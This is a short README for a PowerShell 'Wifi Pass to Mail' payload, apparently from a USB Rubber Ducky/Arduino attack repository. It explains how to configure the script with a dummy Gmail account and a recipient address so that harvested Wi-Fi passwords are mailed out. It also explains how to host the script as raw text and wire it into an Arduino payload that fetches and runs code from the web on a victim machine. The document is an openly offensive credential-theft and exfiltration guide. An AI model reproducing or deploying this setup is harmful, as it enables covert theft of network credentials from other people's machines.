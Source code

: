 # Powershell Wifi Pass to Mail Readme

Paste the script on pastebin (is sometimes blocked on company network), or like I do; on github.

The [Wifi Pass to Mail](https://github.com/datasnoken/duckies/blob/master/Powershell%20Scripts/Powershell_Wifi_Pass_to_Mail) needs some modification

Line 2

System.Net.NetworkCredential('DUMMY_EMAIL@gmail.com', 'DUMMY_EMAIL_PASSWORD')
* 'DUMMY_EMAIL@gmail.com' -> Some dummy gmail address you create
* 'DUMMY_EMAIL_PASSWORD' -> Password of said dummy gmail account

$ReportEmail.From = 'DUMMY_EMAIL@gmail.com'
* 'DUMMY_EMAIL@gmail.com' -> The dummy gmail address again

$ReportEmail.To.Add('EMAIL@gmail.com')
* 'EMAIL@gmail.com' -> The email address you want the passwords sent to



View the script as 'raw' and paste the link in line 30 of the [arduino_run_script_from_web](https://github.com/datasnoken/duckies/blob/master/Arduino%20Payloads/arduino_run_script_from_web.txt) script, where it says "YOUR_SCRIPT_HOSTED_ON_SOME_SITE_AS_RAW" and compile it to your Ducky


???
wifi passwords ¯\_(ツ)_/¯
